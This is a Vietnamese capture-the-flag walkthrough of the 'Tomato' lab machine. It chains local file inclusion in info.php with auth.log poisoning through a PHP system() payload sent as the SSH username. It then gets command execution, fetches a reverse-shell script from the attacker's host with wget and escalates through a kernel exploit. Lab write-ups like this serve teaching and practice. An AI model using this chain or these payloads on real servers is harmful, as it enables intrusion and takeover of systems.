 # Tomato
***
Tìm được địa chỉ của victim: `192.168.132.147`

![](./image/image-1.png)

Dò quét với nmap

![](./image/image-2.png)

Truy cập vào cổng 8888 ta thấy một Nginx server được bảo vệ tài khoản mật khẩu

![](./image/image-3.png)

Ở đây, Ta đã sử dụng dirsearch với từ điển "common.txt".Ta đã tìm thấy thư mục "/antibot_image/".

![](./image/image-4.png)

Ta đi kiểm tra thư mục này

![](./image/image-5.png)

Khi kiểm tra các tập tin, Ta tìm thấy một “info.php“, bên cạnh việc hiển thị cho chúng tôi thông tin hệ thống, phiên bản, v.v. Nó còn bao gồm một món quà bên trong. (Có thể đây là phần phức tạp nhất của chiếc hộp).

![](./image/image-6.png)

`</?php include $_GET['image']; ?>` gợi ý cho chúng ta về lỗ hổng Local File Inclusion (LFI)
Ta tiến hành kiểm thử với payload sau

![](./image/image-7.png)

Với LFI trong tay, ta lần lượt tìm đọc nội dung các file quan trọng và phát hiện auth.log có thể đọc được thông qua lỗ hổng này

![](./image/image-8.png)

```
"auth.log" là file lưu trữ nhật ký truy cập hệ thống. Khi chúng ta đăng nhập thông qua giao diện chính hay qua SSH thì các thông tin đều được lưu trữ tại đây kể cả thành công hay thất bại . Ví dụ như khi chúng ta đăng nhập vào Server thông qua SSH với nội dung ssh 1234@192.168.132.147 và nhập mật khẩu sai nhiều lần, thì nội dung auth.log sẽ ghi nhận :
pam_unix(cron:session): session opened for user root by (uid=0) Jan 16 09:00:01 ubuntu CRON[15022]: pam_unix(cron:session): session closed for user root Jan 16 09:01:03 ubuntu sshd[15027]: Invalid user 1234 from 192.168.132.145 Jan 16 09:01:03 ubuntu sshd[15027]: input_userauth_request: invalid user 1234 [preauth] Jan 16 09:01:05 ubuntu sshd[15027]: pam_unix(sshd:auth): check pass; user unknown Jan 16 09:01:05 ubuntu sshd[15027]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=192.168.132.145 Jan 16 09:01:07 ubuntu sshd[15027]: Failed password for invalid user 1234 from 192.168.132.145 port 33934 ssh2 Jan 16 09:01:12 ubuntu sshd[15027]: pam_unix(sshd:auth): check pass; user unknown Jan 16 09:01:14 ubuntu sshd[15027]: Failed password for invalid user 1234 from 192.168.132.145 port 33934 ssh2 Jan 16 09:01:20 ubuntu sshd[15027]: Failed password for invalid user 1234 from 192.168.132.145 port 33934 ssh2 Jan 16 09:01:20 ubuntu sshd[15027]: 

Như vậy phương pháp của ta đơn giản chỉ cần thay user 1234 kia thành payload tùy ý, từ đó hoàn toàn có thể kiểm soát server.
```
```sh 
ssh '<?php system($_GET["cmd"]);?>'@192.168.132.147 -p 2211
#
http://192.168.132.147/antibot_image/antibots/info.php?image=/var/log/auth.log&cmd=id
```
Ta có thể thực thi lệnh thông qua tham số cmd, bây giờ ta sẽ chèn một reverse shell để kết nối đến máy attacker

![](./image/image-9.png)

Sử dụng SimpleHTTPServer để build một web-server đơn giản trên máy attacker và Download shell về tomato sau đó thực thi shell
```sh
http://192.168.132.147/antibot_image/antibots/info.php?image=/var/log/auth.log&cmd=wget http://192.168.132.145:8081/reverse-shell.php -o /tmp/reverse-shell.php
```

![](./image/image-10.png)
![](./image/image-11.png)

Phiên bản kernel tồn tại lỗi cho phép leo thang đặc quyền
Thực hiện download và biên dịch trên tomato

![](./image/image-12.png)

Do trên máy tomato không có gcc nên thông báo lỗi 
Sau một hồi tìm kiếm thì thấy gcc-5

![](./image/image-13.png)

Tiến thành leo thang đặc quyền

![](./image/image-14.png)

***
## ROOTED

